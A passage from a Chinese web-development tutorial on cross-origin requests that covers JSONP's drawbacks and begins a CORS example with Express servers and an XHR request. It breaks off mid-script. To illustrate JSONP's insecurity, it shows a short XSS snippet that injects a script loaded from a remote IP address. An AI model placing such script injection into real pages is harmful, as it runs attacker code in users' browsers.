 缺点：

* 智能发送 get 请求不支持 post,put,delete
* 不安全，容易引发 xss 攻击，别人在返回的结果中返回了下面的代码。

```text
`let script = document.createElement('script');
script.src= "http://192.168.1.127/xss.js";
document.body.appendChild(script)`;
```

> 会把别人的脚本引入到自己的页面中执行，如：弹窗、广告等，甚至更危险的脚本程序。

## 二、使用 CORS 跨域

> 跨域资源共享/CORS\(Cross-Origin Resource Sharing\)是 W3C 的一个工作草案，定义了必须在访问跨域资源时，浏览器与服务器应该如何沟通。CORS 背后的基本思想，就是使用自定义的 HTTP 头部让浏览器与服务器进行够用，从而决定请求或相应应该是成功，还是失败。

使用场景：多用于开发时，前端与后台在不同的 IP 地址下进行数据访问。

现在启动两个端口号不同的服务器，创建跨域条件，服务器\(NodeJS\)代码如下

```text
// 服务器1
const express = require('express');
let app = express();

app.use(express.static(__dirname));
app.listen(3000)

// 服务器2
const express = require('express');
let app = express();
app.put('/getData', function(req, res){
  res.end('I love you')
})
app.use(express.static(__dirname))
app.listen(4000)
```

由于我们的 NodeJS 服务器使用 express 框架，在我们的项目根目录下的命令行中输入下面代码进行安装:

> npm install express -save

通过访问 [http://localhost:3000/index.html](http://localhost:3000/index.html) 获取 index.html 文件并执行其中的 ajax 请求 [http://localhost:4000/getData](http://localhost:4000/getData) 接口去获取数据，index.html 文件内容如下

```text
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>CORS 跨域</title>
</head>
<body>
</body>
</html>
<script>
  let xhr = new XMLHttpRequest();

  // 正常 cookie 是不愿徐跨域的
  document.cookie = 'name=hello';
  // cookie 想要实现跨域必须携带凭证
  xhr.withCredentials = true;
  // xhr.open('GET', 'http://localhost:4000/getData', true);
  xhr.open('PUT', 'http://localhost:4000/getData', true);
  // 设置名为 name 的自定义请求头
  xhr.setRequestHeader('name', 'hello');

```